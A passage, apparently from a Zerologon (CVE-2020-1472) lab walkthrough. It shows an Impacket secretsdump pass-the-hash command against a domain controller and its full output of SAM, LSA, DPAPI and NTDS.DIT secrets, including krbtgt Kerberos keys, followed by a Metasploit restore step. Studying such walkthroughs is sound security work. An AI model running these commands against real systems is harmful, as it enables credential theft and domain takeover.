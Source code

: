 
```shell
┌──(root💀coolhostname)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/secretsdump.py administrator@192.168.201.9 -hashes aad3b435b51404eeaad3b435b51404ee:41b3f9ac5278dae30d67b59e3b01383f -outputfile victim.com -user-status
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x783810db95179311387fe51e47d7f905
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:41b3f9ac5278dae30d67b59e3b01383f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
VICTIM\ADVICTIM2012R2$:aes256-cts-hmac-sha1-96:9e247f9d42ae831376814de454b2108f81b39e395f43583ea12ee9271de260cf
VICTIM\ADVICTIM2012R2$:aes128-cts-hmac-sha1-96:06ebbd16a649970d8d4bbc819169fad8
VICTIM\ADVICTIM2012R2$:des-cbc-md5:51fe8f7f494c8c75
VICTIM\ADVICTIM2012R2$:plain_password_hex:cfbb2bbc9b3a70e340d0026b250a2d3c9ea12f2e79a65c30e0ac776a3a412c38
VICTIM\ADVICTIM2012R2$:aad3b435b51404eeaad3b435b51404ee:6584bf06e7b65c680426dd1b21352f01:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xa1da827ba8bbfc007be32a602273cf084e4ecf9c
dpapi_userkey:0x2d9f40a47e6ca30622ee5a2ff26cb03c279d7611
[*] NL$KM
 0000   51 AB 90 B9 93 2B 63 98  71 C6 9E 2F BF BB 8E 1F   Q....+c.q../....
 0010   F0 55 F0 1C EF B9 3C 62  C4 7E B8 CE BB 86 B7 DB   .U....<b.~......
 0020   65 F5 AA 34 C5 57 67 F3  CF A6 02 B0 BE F9 B4 24   e..4.Wg........$
 0030   E1 87 49 70 2B 8F 82 D7  A9 B2 71 D7 21 DC 27 E5   ..Ip+.....q.!.'.
NL$KM:51ab90b9932b639871c69e2fbfbb8e1ff055f01cefb93c62c47eb8cebb86b7db65f5aa34c55767f3cfa602b0bef9b424e18749702b8f82d7a9b271d721dc27e5
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:41b3f9ac5278dae30d67b59e3b01383f::: (status=Enabled)
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4e10b53bcd24af9db5f2f9cb302d3a94::: (status=Disabled)
ADVICTIM2012R2$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Enabled)
CAVICTIM2012R2$:1103:aad3b435b51404eeaad3b435b51404ee:9c1ffa33539e567196cfbaa923326d3a::: (status=Enabled)
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:484daca6d51e63a5332b6ce83e9d24389f9f95219118efc01dd69c4bee1a032e
krbtgt:aes128-cts-hmac-sha1-96:dbbdcef9cacf1c3509e47fef1b373634
krbtgt:des-cbc-md5:bfe0453e54585b43
ADVICTIM2012R2$:aes256-cts-hmac-sha1-96:6c4942b6eb4f1110745b39a50f77952c0e398235ed27f9c333b9753f801edd27
ADVICTIM2012R2$:aes128-cts-hmac-sha1-96:401d7736faf7f88f22667c3d32c08bee
ADVICTIM2012R2$:des-cbc-md5:89cb6876a4c84616
AVICTIM2012R2$:aes256-cts-hmac-sha1-96:23c6b2e38221f5d84be025657a295a6026007e4c7a948f691f65ecf826750452
CAVICTIM2012R2$:aes128-cts-hmac-sha1-96:c96ad9db438b318dcf0168d4b2d2d86c
CAVICTIM2012R2$:des-cbc-md5:a79badf7ec9eb0cd
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```
Now restore the machine account password with the zerologon Metasploit module by setting the action to restore.
```shell
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set action RESTORE
action => RESTORE
```